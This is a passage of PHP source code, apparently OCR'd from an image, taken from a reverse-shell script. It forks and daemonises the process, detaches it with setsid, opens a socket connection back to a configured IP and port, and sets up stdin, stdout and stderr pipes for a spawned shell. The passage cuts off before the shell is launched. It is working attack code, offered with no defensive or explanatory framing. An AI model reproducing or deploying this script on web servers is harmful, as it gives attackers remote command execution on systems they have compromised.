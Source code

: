 }

if ($pid) {

exit(0); // Parent exits

}

// Make the current process a session leader

// Will only succeed if we forked

if (posix\_setsid() == -1) {

printit("Error: Can't setsid()");

exit(1);

}

$daemon = 1;

} else {

printit("WARNING: Failed to daemonise. This is quite common and not fatal.");

}

// Change to a safe directory

chdir("/");

// Remove any umask we inherited

umask(0);

//

// Do the reverse shell...

//

// Open reverse connection

$sock = fsockopen($ip, $port, $errno, $errstr, 30);

if (!$sock) {

printit("$errstr ($errno)");

exit(1);

}

// Spawn shell process

$descriptorspec = array(

0 => array("pipe", "r"), // stdin is a pipe that the child will read from

1 => array("pipe", "w"), // stdout is a pipe that the child will write to

2 => array("pipe", "w") // stderr is a pipe that the child will write to

);
